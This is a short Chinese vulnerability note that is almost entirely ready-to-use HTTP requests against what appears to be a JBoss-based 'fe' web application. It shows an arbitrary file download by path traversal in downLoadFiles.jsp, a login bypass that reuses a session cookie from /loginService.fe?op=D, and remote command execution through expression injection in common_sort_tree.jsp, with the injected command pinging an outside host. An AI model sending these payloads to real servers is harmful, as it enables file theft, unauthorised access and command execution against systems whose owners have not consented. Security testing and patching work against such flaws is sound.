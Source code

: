 


### downLoadFiles.jsp 任意文件下载漏洞

```
POST /system/mediafile/downLoadFiles.js%70 HTTP/1.1 
Host: ip
User-Agent: python-requests/2.31.0 Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded 
Content-Length: 92

path=..%2F..%2Fjboss%2Fweb%2Ffe.war%2Fsystem/mediafile/downLoadFiles.jsp&msVal=2222222222%2C
```



### /loginService.fe 登陆绕过

```
GET /loginService.fe?op=D HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36

```

取出响应中头部的`Set-Cookie: JESSIONID=xxxx`

```
GET /main/main.jsp
Cookie: JESSIONID=xxxx
```

漏洞分析在上文框架结构中。



### common_sort_tree.jsp 远程代码执行漏洞

```
POST /common/common_sort_tree.jsp;.js HTTP/1.1 
Host: ip
Accept-Encoding: gzip-deflate
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

rootName={%25Thread.@java.lang.Runtime@getRuntime().exec('ping+-nc+2+xxx.org')%25}
```
